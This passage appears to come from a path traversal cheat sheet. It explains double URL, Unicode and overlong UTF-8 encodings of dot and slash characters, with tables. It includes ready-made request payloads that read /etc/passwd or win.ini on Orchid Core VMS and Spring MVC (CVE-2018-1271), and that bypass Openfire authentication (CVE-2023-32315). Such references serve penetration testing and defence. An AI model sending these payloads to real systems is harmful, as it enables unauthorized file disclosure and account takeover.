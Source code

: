 **Example:** IPConfigure Orchid Core VMS 2.0.5 - Local File Inclusion

```ps1
{{BaseURL}}/%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e/etc/passwd
```

### Double URL Encoding

Double URL encoding is the process of applying URL encoding twice to a string. In URL encoding, special characters are replaced with a % followed by their hexadecimal ASCII value. Double encoding repeats this process on the already encoded string.

| Character | Encoded |
| --- | -------- |
| `.` | `%252e` |
| `/` | `%252f` |
| `\` | `%255c` |

**Example:** Spring MVC Directory Traversal Vulnerability (CVE-2018-1271)

```ps1
{{BaseURL}}/static/%255c%255c..%255c/..%255c/..%255c/..%255c/..%255c/..%255c/..%255c/..%255c/..%255c/windows/win.ini
{{BaseURL}}/spring-mvc-showcase/resources/%255c%255c..%255c/..%255c/..%255c/..%255c/..%255c/..%255c/..%255c/..%255c/..%255c/windows/win.ini
```

### Unicode Encoding

| Character | Encoded |
| --- | -------- |
| `.` | `%u002e` |
| `/` | `%u2215` |
| `\` | `%u2216` |

**Example**: Openfire Administration Console - Authentication Bypass (CVE-2023-32315)

```js
{{BaseURL}}/setup/setup-s/%u002e%u002e/%u002e%u002e/log.jsp
```

### Overlong UTF-8 Unicode Encoding

The UTF-8 standard mandates that each codepoint is encoded using the minimum number of bytes necessary to represent its significant bits. Any encoding that uses more bytes than required is referred to as "overlong" and is considered invalid under the UTF-8 specification. This rule ensures a one-to-one mapping between codepoints and their valid encodings, guaranteeing that each codepoint has a single, unique representation.

| Character | Encoded |
| --- | -------- |
| `.` | `%c0%2e`, `%e0%40%ae`, `%c0%ae` |
| `/` | `%c0%af`, `%e0%80%af`, `%c0%2f` |
| `\` | `%c0%5c`, `%c0%80%5c` |
